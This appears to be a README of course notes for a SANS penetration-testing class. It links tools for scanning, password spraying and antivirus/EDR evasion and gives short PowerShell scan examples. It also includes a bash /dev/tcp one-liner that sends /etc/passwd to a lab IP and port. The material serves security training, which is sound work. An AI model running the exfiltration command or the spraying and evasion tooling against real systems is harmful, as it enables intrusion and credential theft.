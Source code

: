 # 560-Extras
Notes and other extras related to SANS SEC560

## Day 1


## Day 2


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 
```
1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}
```

PowerShell port scan example: 
```
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null
```

### Bash /dev/tcp fun

Connect to a port: 
```
echo "" > /dev/tcp/142.250.138.139/443
```

Send a file: 
```
cat /etc/passwd > /dev/tcp/10.10.10.10/4444
```

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

lolcat (lol): https://github.com/busyloop/lolcat

Awesome lolcat from Jeff McJunkin:
```
while true; do fortune | cowsay -f $(find /usr/share/cowsay/cows/ -type f | sort -R | head -n1) |
lolcat -a -s 40; sleep 2; done
```

Can use telnet, too (although it is not a cat): telnet ip port


### NSE script using the Vulners.com API: https://github.com/vulnersCom/nmap-vulners


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year: http://weakpasswords.net/


### Skull Security for useful lists: https://wiki.skullsecurity.org/index.php/Passwords


### Password Spraying

DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/

SprayingToolkit: https://github.com/byt3bl33d3r/SprayingToolkit

TrevorSpray: https://github.com/blacklanternsecurity/TREVORspray


## Day 3

### Verizon Data Breach Investigation Report: https://www.verizon.com/business/resources/reports/dbir/


### Living off the land

Windows: https://lolbas-project.github.io/

Linux: https://gtfobins.github.io/


### PowerShell command history files: %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine


### Daily builds of various C# security tools: https://github.com/Flangvik/SharpCollection


### Custom Bloodhound queries: https://github.com/hausec/Bloodhound-Custom-Queries


## Day 4


### AV Bypass

DefenderCheck: https://github.com/matterpreter/DefenderCheck

AMSITrigger: https://github.com/RythmStick/AMSITrigger

https://vanmieghem.io/blueprint-for-evading-edr-in-2022/

https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html

https://github.com/TheWover/donut

Talk the Windows API directly with PowerShell: https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/

## Day5
